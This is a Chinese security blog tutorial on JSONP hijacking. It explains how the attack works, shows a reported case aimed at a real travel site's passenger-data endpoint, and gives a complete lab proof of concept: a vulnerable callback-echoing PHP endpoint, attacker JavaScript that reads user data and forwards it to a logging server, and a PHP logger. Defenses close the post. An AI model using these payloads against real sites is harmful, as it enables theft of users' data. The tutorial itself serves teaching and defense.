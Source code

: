 ```yaml
---
title: JSONP 劫持入门
categories:
  - Web安全
tags:
  - jsonp
abbrlink: 84da2c8b
date: 2019-01-06 16:53:11
---
```


&#8195;&#8195;JSONP（JavaScript Object Notation with Padding） 是 JSON 的一种“使用模式”，主要解决跨域读取数据的问题，由此引发的 JSONP 劫持，原理上和 CSRF 类似，诱导用户访问恶意 JS 窃取用户敏感信息，当然还可能造成其他危害，具体取决于能获取到的敏感信息，以及对 callback 函数的处理方式，乌云有很多案例可参考。
<!-- more -->

## JSONP 劫持
1. 客户端利用 `<script>` 标签的 src 属性不受同源限制的特性，向网页中动态插入 `<script>` 标签，来向服务端请求数据。
2. 服务端根据客户端提供的 callback 参数，将数据放入其中返回给客户端。
3. 返回给客户端的数据其实是 JS 格式，会触发本地回调函数，从而对数据进行处理。

看一个乌云的例子：
```
<script>
function qunarcallback(json){
	alert(JSON.stringify(json))
}
</script>

<script src="http://tinfo.qunar.com/ticket/passenger/passenger_info.jsp?&type=passenger&callback=qunarcallback"></script>
```
![效果](/imgs/jsonp2.png)

&#8195;&#8195;使用`<script>` 请求服务端数据，服务端返回的数据会用 callback 传入的参数 qunarcallback 包裹，而 qunarcallback 是本地定义好的函数，所以服务端返回的数据会作为该函数的参数执行。

&#8195;&#8195;这种跨域方式其实与 ajax XmlHttpRequest 协议无关。如果未作防范，构造恶意 jsonp 调用页面，诱导用户访问就能获取用户敏感信息，测试如下：
> 1. js.html ————实际的劫持 poc ，实战中放到黑客控制的 vps 上；
> 2. api.php ————模拟有漏洞的 jsonp 接口，在有漏洞的 web 服务器上；
> 3. logs.php ————黑客 vps 记录劫持记录的后端页面。

流程如下：
![jsonp劫持流程](/imgs/jsonp1.png)

代码如下：
api.php
```
<?php
header('Content-type:application/json');
echo $_GET['callback']."({\"admin\":\"hahahaha"."\"})";
?>
```

js.html
```
<script type="text/javascript" src="http://www.w3school.com.cn/jquery/jquery-1.11.1.min.js"></script>

<script type="text/javascript">

  $.getJSON("http://192.168.125.135/csrf/api.php?callback=?", function(json){
     alert(json.admin);
     var data=json.admin;
     $.get("http://192.168.125.135/csrf/logs.php?mylogs="+data, function(res, status){
        alert('OK');
  });
})
</script>
```

logs.php
```
<?php
  $time = date("Y_m_d_h_i_s");
  $filename = $time."_".rand(1,29999).".txt";
  $log = $_GET['mylogs'];
  $httpheader = "HTTP_HEADER\r\n";
  foreach ($_SERVER as $name => $value) {
      $httpheader=$httpheader."$name: $value\r\n";
  }
  echo file_put_contents($filename, $httpheader."\r\n".$log);

?>
```
&#8195;&#8195;js.html 中第一个 ajax 请求，模拟 csrf 向服务器请求返回账号敏感信息。第二个 ajax 请求，模拟 vps 的 jspoc 成功解析到敏感信息，并且做一个 log 记录。也可直接解析 json ：
```
<script>
function hack(json){
alert(JSON.stringify(json)); //接下来可以做转发记录
}

</script>
<script src="http://127.0.0.1:8081/js.php?callback=hack"></script>
```

jsonp 跨域也有一定的局限性：
> 1. 它需要后端的配合，因为后端的接口需要根据约定的参数获取回调函数名，然后跟返回数据进行拼接，最后进行响应。
> 2. 它只能进行异步的调用，因为它的原理是通过动态生成 `<script>` 加载 JS 的方法，而这个过程是异步的，所以如果你想进行同步的调用，那么这个方法就无能为力了。

同源相关可参考 [同源策略和跨域](http://www.gokuweb.com/websec/28c252a.html)

## JSONP 防御
1. 跟 CSRF 一样，限制 referer 或者使用 token 。
2. 严格定义 Content-Type: application / json; charset=utf-8 。
3. 过滤 callback 以及 JSON 数据输出。

## 参考
[jsonp劫持入门玩法](https://secvul.com/topics/1382.html)
[什么是jsonp](http://www.bejson.com/knownjson/aboutjsonp/)
[JSONP挖掘与高级利用](http://www.ijilei.com/6243)
[读取型CSRF-需要交互的内容劫持](https://gh0st.cn/archives/2018-03-22/1)
[读取型CSRF-需要交互的内容劫持](https://gh0st.cn/archives/2018-03-22/1)

